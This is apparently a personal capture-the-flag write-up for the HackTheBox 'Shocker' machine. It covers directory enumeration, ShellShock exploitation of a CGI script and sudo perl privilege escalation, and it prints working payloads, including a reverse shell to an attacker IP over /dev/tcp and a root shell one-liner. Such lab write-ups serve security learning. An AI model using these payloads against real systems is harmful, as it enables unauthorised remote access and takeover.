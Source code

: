 ```yaml
---
title: Shocker
tags:
  - HackTheBox
  - Easy
  - Linux
  - ShellShock
  - Sudo-Vulnerability
date: 2024-09-02T00:00:00Z
---
```

![](Pasted%20image%2020241102105019.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.10.56 shocker.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- shocker.htb > sC.txt

[redacted]
PORT     STATE SERVICE
80/tcp   open  http
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  EtherNetIP-1
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
```

So I decided to take a look at the webpage:

![](Pasted%20image%2020241102105723.png)

There’s a misconfiguration on Shocker that’s worth understanding. Typically, most webservers will handle a request to a directory without a trailing slash by sending a redirect to the same path but with the trailing slash. But in this case, there is a directory on Shocker that sends a 404 Not Found with visited without the trailing slash.

Tools like [dirsearch 📁](/notes/tools/dirsearch.md) and [Dirb 📢](/notes/tools/Dirb.md) actually take the input wordlist and loop over each entry sending two requests, with and without the trailing slash. This is really helpful in a case like shocker, but will double the amount of requests sent (and thus time) each time there’s a scan. Both [Gobuster 🐦](/notes/tools/Gobuster.md) and `feroxbuster` have a `-f` flag to force adding the `/` to the end of directories. For Shocker, running with `-f` does find something else:

```shell
gobuster dir -u http://shocker.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -f

[redacted]
===============================================================
/cgi-bin/             (Status: 403) [Size: 294]
/icons/               (Status: 403) [Size: 292]
```

```shell
dirsearch -e php,sh -u http://shocker.htb/cgi-bin

[redacted]
[11:25:49] 200 -  119B  - /cgi-bin/user.sh
```

So I checked that script:

![](Pasted%20image%2020241102112703.png)

It seems that this script outputs the linux command `uptime`.

## Exploitation

[ShellShock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)), AKA Bashdoor or CVE-2014-6271, was a vulnerability in Bash discovered in 2014 which has to do with the Bash syntax for defining functions. It allowed an attacker to execute commands in places where it should only be doing something safe like defining an environment variable. An initial POC was this:

```shell
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

This was a big deal because lots of different programs would take user input and use it to define environment variables, the most famous of which was CGI-based web servers. For example, it’s very typically to store the User-Agent string in an environment variable. And since the UA string is completely attacker controlled, this led to remote code execution on these systems.

> *I got inspired by this website: [sevenlayers.com](https://www.sevenlayers.com/index.php/125-exploiting-shellshock)*, then I created this note

So I decided to intercept the request and send a shellshock payload. I tested this payload:

```shell
() { :;}; echo; /usr/bin/id
```

![](Pasted%20image%2020241102113716.png)

So it's time for a reverse shell:

```shell
() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.16/666 0>&1
```

> Got it!

![](Pasted%20image%2020241102114023.png)

I can now read the user flag:

![](Pasted%20image%2020241102114227.png)

## Privilege escalation

if we run `sudo -l`:

```shell
sudo -l

Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

So we can run as sudo without password a perl privileged reverse shell. As [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) says:

> [!Info]
> If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```shell
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

> We are root now!:

![](Pasted%20image%2020241102114629.png)

==Machine pwned!==

